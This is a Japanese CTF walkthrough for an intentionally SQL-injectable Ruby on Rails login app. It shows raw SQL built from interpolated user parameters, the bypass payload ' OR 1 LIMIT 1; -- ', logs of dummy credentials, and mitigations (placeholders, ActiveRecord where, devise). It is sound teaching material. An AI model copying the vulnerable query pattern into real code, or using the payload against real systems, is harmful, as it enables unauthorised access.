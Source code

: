 # Ruby On Rails SQLi 

Railsを用いてSQLiに脆弱なサンプルアプリを作ってみました。

CTF形式となっておりますので、ローカルで本アプリを立ち上げてFLAGを獲得してください。

## 実行方法

```
$ docker-compose up
```

以下のように``` localhost:3000/ror/index ```が立ち上がればオッケーです。

![起動画面](./sample.png)

以下答えになります。

## TL;DR

```
' OR 1 LIMIT 1; -- '
```

## Railsとは？

MVCアーキテクチャに基づいて設計されたWebアプリケーションフレームワーク

ControllerにあたるAction Controller、
ViewにあたるAction View、
ModelにあたるActive Recordが担当

Railsの理念

- 設定より規約（Convention over configuration; CoC）
- DRY（Don't Repeat Yourself）
- REST（Representational State Transfer）

## Railsの仕組み

Railsアプリに対してアクセスが来たとき、RailsはどのURIにどのHTTPメソッドが来たかを判別し、[routes.rb](./config/routes.rb)を参照しながら適切なコントローラーを呼び出します。

```
  get 'ror/index'
```

とあるので、[ror_controller.rb](./app/controllers/ror_controller.rb)のindex関数によって処理されることが定義されています。

さて、index関数は何も書いていない空の関数です。

この場合、アプリは[index.html.erb](./app/views/ror/index.html.erb)の中身をすぐに用意します。

このerbファイルからHTMLが作成され、ユーザーに表示されるという仕組みなっております。

index.html.erbを眺めてみましょう。

```
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <h1>Login</h1>
    <%= form_tag("/ror/login", method: "post") do %>
        <%= label_tag(:nickname, "Nickname:") %>
        <%= text_field_tag(:nickname) %>
        <br>
        <%= label_tag(:password, "Password:") %>
        <%= text_field_tag(:password) %>
        <%= submit_tag("Submit") %>
      <% end %>

    <p>Time: <%= Time.current %></p>
  </body>
</html>
```

ユーザの入力を受け付けるRailsのAction Viewのフォームヘルパー```form_tag```、```label_tag```などがあります。

さて、上記コードによって```/ror/login```というURIにニックネームとパスワードの情報がpostされますが、routingを確認してみるとは[ror_controller.rb](./app/controllers/ror_controller.rb)のlogin関数によって処理されることが定義されています。

login関数は以下のようになっております。

```
  def login

    con = ActiveRecord::Base.connection
    result = con.select_all("SELECT * FROM users WHERE nickname = '#{params[:nickname]}' AND password = '#{params[:password]}'")

    if result.to_a.size == 1
      render plain: 'FLAG{dummy_flag}'
      return
    end

    render plain: 'Login Failed'
  end
```

生SQLを発行していることが分かります。

SQLはニックネームとパスワードが一致するユーザーをSELECTしているようです。

ログインの成功条件としては、SQLの結果が1件取れた場合にログイン成功となりFLAGを返しているようです。

## 解法

NicknameかPasswordに

```
' OR 1 LIMIT 1; -- '
```

を入力するとログインを突破し、Flagを手に入れることができます。

ちなみに、

```
' OR 1; -- '
```

だと、```Login Failed```となってしまうが、これはもちろん、result.to_a.sizeが3になってしまうからである。

このときのWeb側のログを見ると、

```
(1.3ms)  SELECT * FROM users WHERE nickname = '' OR 1; -- '' AND password = '1'
web_1  |   ↳ app/controllers/ror_controller.rb:10:in `login'
web_1  | {"id"=>"08d9a2ad-dab1-44eb-9728-db8019921c1d", "nickname"=>"ゼニガメ", "email"=>"zenigame@pokemon.ac.jp", "password"=>"Mjs0Bmiv2", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"83aee8fd-11b4-4298-9c4b-0f5483b3115f", "nickname"=>"ヒトカゲ", "email"=>"hitokage@pokemon.ac.jp", "password"=>"FgkmcSFk2i", "age"=>20, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
web_1  | {"id"=>"e8077e6c-0d14-466c-8300-6b7975b95442", "nickname"=>"フシギダネ", "email"=>"fushigidane@pokemon.ac.jp", "password"=>"m3bChIrNov", "age"=>5, "created_at"=>2021-01-12 00:18:10 UTC, "updated_at"=>2021-01-12 00:18:10 UTC}
```

となるため、SQL文は正しく発行されていることが分かります。

ログイン条件を正にするためには、検索結果を一件のみに絞らせる必要があります。

## 対策方法

発行するSQLの中に変数が入ってくる場合、プレースホルダで書くことが望ましいです。

問題となったSQLはプレースホルダで書くと

```
result = con.select_all("SELECT * FROM users WHERE nickname = ? AND password = ?", "#{params[:nickname]}", "#{params{:password}}")
```

となります。

RailsにはActiveRecordという強力なO/Rマッパーが用意されているので、それを使いましょう。

今回の場合だと、where句を用いることができます。

```
result = User.where(nickname: params[:nickname], password: params[:password])
```

さて、Railsdではログイン機能を作る際はdeviseというGemを利用するのが一般的です。

Gemとは、Rubyで書かれたプログラムをパッケージ化したもので、通常Bundlerを用いてGemを管理します。（Pythonでいうところのpipのようなものです。）

deviseを用いることで、会員登録・ログイン・パスワード変更機能なども容易に作成でき、セッションの確保・破棄、サインイン回数やサインイン時間やIPアドレスなども記録できます。

## データベースの中身を見てみたい方へ（Rails初学者向け）

Railsでは、rails consoleという便利なツールを使ってデータベースの中身を確認できます。

今回の問題では、以下のように```rails c```で立ち上げて、```User.all```と打つだけです。

```
$ docker exec -it ror_sqlis_web_1 bash
root@9f42995292fd:/myapp# rails c
Running via Spring preloader in process 65
Loading development environment (Rails 6.1.0)
irb(main):001:0> User.all
  User Load (0.6ms)  SELECT `users`.* FROM `users` /* loading for inspect */ LIMIT 11
=> #<ActiveRecord::Relation [#<User id: "02183cc7-3183-41eb-9f2b-81f5f8a2eb20", nickname: "ゼニガメ", email: "zenigame@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.643294000 +0000", updated_at: "2021-01-12 02:42:59.643294000 +0000">, #<User id: "13663518-f302-4dd2-beb4-366750dde71a", nickname: "フシギダネ", email: "fushigidane@pokemon.ac.jp", password: [FILTERED], age: 5, created_at: "2021-01-12 02:42:59.626354000 +0000", updated_at: "2021-01-12 02:42:59.626354000 +0000">, #<User id: "f4091449-caef-4502-96fe-55d90600d734", nickname: "ヒトカゲ", email: "hitokage@pokemon.ac.jp", password: [FILTERED], age: 20, created_at: "2021-01-12 02:42:59.636228000 +0000", updated_at: "2021-01-12 02:42:59.636228000 +0000">]>>
```



